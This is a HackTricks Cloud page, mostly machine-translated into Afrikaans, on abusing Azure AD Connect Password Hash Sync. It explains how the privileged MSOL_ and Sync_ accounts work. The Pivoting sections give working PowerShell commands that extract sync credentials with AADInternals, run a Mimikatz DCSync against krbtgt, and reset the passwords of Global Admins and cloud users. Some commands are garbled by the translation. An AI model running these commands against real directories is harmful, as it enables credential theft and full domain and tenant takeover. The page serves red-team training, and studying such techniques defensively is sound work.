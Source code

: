 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Waghash-sinkronisasie** is one of the sign-in methods used to accomplish hybrid identity. **Azure AD Connect** sinkroniseer 'n hash, van die hash, van 'n gebruiker se wagwoord van 'n plaaslike Active Directory-instansie na 'n wolk-gebaseerde Azure AD-instansie.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Dit is die **meest algemene metode** wat deur maatskappye gebruik word om 'n plaaslike AD met Azure AD te sinkroniseer.

Alle **gebruikers** en 'n **hash van die wagwoord hashes** word van die plaaslike na Azure AD gesinkroniseer. egter, **duidelike teks wagwoorde** of die **oorspronklike** **hashes** word nie na Azure AD gestuur nie.\
Boonop, **Ingeboude** sekuriteitsgroepe (soos domein admins...) word **nie gesinkroniseer** na Azure AD nie.

Die **hashes sinkronisasie** vind elke **2 minute** plaas. egter, standaard, **wagwoord vervaldatums** en **rekening** **vervaldatums** word **nie gesinkroniseer** in Azure AD nie. So, 'n gebruiker wie se **plaaslike wagwoord verval** (nie verander nie) kan voortgaan om **toegang tot Azure hulpbronne** te verkry met die ou wagwoord.

Wanneer 'n plaaslike gebruiker 'n Azure hulpbron wil benader, vind die **authentisering plaas op Azure AD**.

**PHS** is vereis vir funksies soos **Identiteitsbeskerming** en AAD Domeindienste.

## Pivoting

Wanneer PHS geconfigureer is, word sommige **bevoorregte rekeninge** outomaties **gecreëer**:

* Die rekening **`MSOL_<installationID>`** word outomaties in plaaslike AD geskep. Hierdie rekening ontvang 'n **Directory Synchronization Accounts** rol (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) wat beteken dat dit **replicasie (DCSync) toestemmings in die plaaslike AD** het.
* 'n rekening **`Sync_<name of on-prem ADConnect Server>_installationID`** word in Azure AD geskep. Hierdie rekening kan **die wagwoord van ENIGE gebruiker** (gesinkroniseer of slegs wolk) in Azure AD **herstel**.

Wagwoorde van die twee vorige bevoorregte rekeninge word **in 'n SQL-server gestoor** op die bediener waar **Azure AD Connect geïnstalleer is.** Administrateurs kan die wagwoorde van daardie bevoorregte gebruikers in duidelike teks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie van een van die tabelle te onttrek, wat een versleuteld is:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **versleutelde konfigurasie** is versleuteld met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`** gebruiker in plaaslike AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom, om hierdie te kompromitteer, is dit moontlik om privesk te verkry tot die AD en AzureAD.

Jy kan 'n [volledige oorsig van hoe hierdie akrediteer bespaar en ontsleutel word in hierdie praatjie vind](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

As die **bediener waar Azure AD connect geïnstalleer is** aan die domein gekoppel is (aanbeveel in die dokumentasie), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Jy kan ook [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) gebruik om hierdie akrediteer te verkry.
{% endhint %}

### Misbruik van Sync\_\*

Deur die **`Sync_*`** rekening te kompromitteer, is dit moontlik om die **wagwoord** van enige gebruiker (insluitend Globale Administrators) te **herstel**.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om **slegs die wagwoorde van wolk** gebruikers te **wysig** (selfs al is dit onverwags)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Dit is ook moontlik om die wagwoord van hierdie gebruiker te dump.

{% hint style="danger" %}
'n Ander opsie sou wees om **bevoorregte toestemmings aan 'n dienshoof** toe te ken, wat die **Sync** gebruiker **toestemmings** het om te doen, en dan **daardie dienshoof** te benader as 'n manier van privesc.
{% endhint %}

### Naadlose SSO

Dit is moontlik om Naadlose SSO met PHS te gebruik, wat kwesbaar is vir ander misbruik. Kontroleer dit in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
